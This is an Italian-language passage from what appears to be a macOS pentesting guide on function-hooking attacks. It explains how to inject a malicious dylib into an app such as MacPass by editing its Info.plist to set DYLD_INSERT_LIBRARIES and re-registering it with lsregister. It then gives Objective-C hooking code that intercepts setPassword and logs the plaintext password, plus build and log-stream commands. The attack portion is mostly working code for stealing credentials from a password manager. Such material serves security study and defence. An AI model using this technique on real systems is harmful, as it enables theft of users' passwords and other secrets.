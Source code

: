```objectivec
}
```
## Hooking Attack Methodology

In questa pagina sono stati discussi diversi modi per agganciare funzioni. Tuttavia, comportavano **l'esecuzione di codice all'interno del processo per attaccare**.

Per fare ciò, la tecnica più semplice da utilizzare è iniettare un [Dyld tramite variabili di ambiente o hijacking](../macos-dyld-hijacking-and-dyld_insert_libraries.md). Tuttavia, suppongo che questo possa essere fatto anche tramite [Dylib process injection](macos-ipc-inter-process-communication/#dylib-process-injection-via-task-port).

Tuttavia, entrambe le opzioni sono **limitati** a **binarie/processi non protetti**. Controlla ciascuna tecnica per saperne di più sulle limitazioni.

Tuttavia, un attacco di hooking di funzione è molto specifico, un attaccante lo farà per **rubare informazioni sensibili dall'interno di un processo** (se no faresti semplicemente un attacco di iniezione di processo). E queste informazioni sensibili potrebbero trovarsi in app scaricate dall'utente come MacPass.

Quindi il vettore dell'attaccante sarebbe quello di trovare una vulnerabilità o rimuovere la firma dell'applicazione, iniettare la variabile env **`DYLD_INSERT_LIBRARIES`** attraverso l'Info.plist dell'applicazione aggiungendo qualcosa come:
```xml
<key>LSEnvironment</key>
<dict>
<key>DYLD_INSERT_LIBRARIES</key>
<string>/Applications/Application.app/Contents/malicious.dylib</string>
</dict>
```
e poi **ri-registrare** l'applicazione:
```bash
/System/Library/Frameworks/CoreServices.framework/Frameworks/LaunchServices.framework/Support/lsregister -f /Applications/Application.app
```
Aggiungi in quella libreria il codice di hooking per esfiltrare le informazioni: Passwords, messages...

> [!CAUTION]
> Nota che nelle versioni più recenti di macOS se **rimuovi la firma** del binario dell'applicazione e questa è stata eseguita in precedenza, macOS **non eseguirà più l'applicazione**.

#### Esempio di libreria
```objectivec
// gcc -dynamiclib -framework Foundation sniff.m -o sniff.dylib

// If you added env vars in the Info.plist don't forget to call lsregister as explained before

// Listen to the logs with something like:
// log stream --style syslog --predicate 'eventMessage CONTAINS[c] "Password"'

#include <Foundation/Foundation.h>
#import <objc/runtime.h>

// Here will be stored the real method (setPassword in this case) address
static IMP real_setPassword = NULL;

static BOOL custom_setPassword(id self, SEL _cmd, NSString* password, NSURL* keyFileURL)
{
// Function that will log the password and call the original setPassword(pass, file_path) method
NSLog(@"[+] Password is: %@", password);

// After logging the password call the original method so nothing breaks.
return ((BOOL (*)(id,SEL,NSString*, NSURL*))real_setPassword)(self, _cmd,  password, keyFileURL);
}

```